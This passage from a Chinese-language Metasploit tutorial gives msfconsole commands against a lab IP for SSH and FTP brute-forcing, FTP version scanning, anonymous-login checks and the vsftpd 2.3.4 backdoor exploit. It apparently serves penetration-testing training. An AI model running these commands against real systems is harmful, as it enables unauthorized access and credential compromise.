     ```shell
    use  auxiliary/scanner/ssh/ssh_login  # 使用攻击模块
        set rhosts 192.168.18.137  # 设置目标参数
        set  USERPASS_FILE  /home/jlb/root_userpass.txt  # 设置密码文件
        set VERBOSE  true # 显示破解过程
        run # 执行
        seesions  # 显示会话
        sessions -i 1 # 使用指定会话
    ```

### 4. 基于 FTP 协议进行信息收集

```shell
use auxiliary/scanner/ftp/ftp_version # 使用指定模块 查看 FTP 版本
	set rhosts 192.168.18.137  # 设置参数
	run  # 执行
use  exploit/unix/ftp/vsftpd_234_backdoor  # 使用指定版本的模块
	set rhosts 192.168.18.137  # 设置参数
	run # 执行
```

FTP 匿名登陆：

```shell
use auxiliary/scanner/ftp/anonymous   # 使用指定模块
	set rhosts 192.168.18.137  # 设置参数
	run # 执行
	# 执行成功后。使用 FTP 软件进行连接
```

FTP 暴力破解：

```shell
use auxiliary/scanner/ftp/ftp_login  # 设置指定模块
	set rhosts 192.168.18.137  # 设置参数
	set  USERPASS_FILE  /home/jlb/root_userpass.txt  # 设置密码文件
	run # 执行
```



## 七、实战

攻击流程：\

